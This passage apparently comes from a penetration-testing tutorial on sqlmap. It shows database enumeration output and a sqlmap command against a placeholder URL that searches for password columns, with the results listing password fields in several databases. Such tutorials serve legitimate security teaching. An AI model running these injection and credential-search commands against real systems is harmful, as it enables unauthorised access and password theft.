 ```shell
+-----------------+
| USER_PRIVILEGES |
+-----------------+

Database: mysql
[1 table]
+-----------------+
| user            |
+-----------------+

do you want to dump found table(s) entries? [Y/n]
...SNIP...

```

In the above example, we can immediately spot a couple of interesting data retrieval targets based on these search results. We could also have tried to search for all column names based on a specific keyword (e.g. `pass`):

```shell
sqlmap -u "http://www.example.com/?id=1" --search -C pass

...SNIP...
columns LIKE 'pass' were found in the following databases:
Database: owasp10
Table: accounts
[1 column]
+----------+------+
| Column   | Type |
+----------+------+
| password | text |
+----------+------+

Database: master
Table: users
[1 column]
+----------+--------------+
| Column   | Type         |
+----------+--------------+
| password | varchar(512) |
+----------+--------------+

Database: mysql
Table: user
[1 column]
+----------+----------+
| Column   | Type     |
+----------+----------+
| Password | char(41) |
+----------+----------+

Database: mysql
Table: servers
[1 column]
+----------+----------+
| Column   | Type     |
+----------+----------+
| Password | char(64) |
+----------+----------+

```

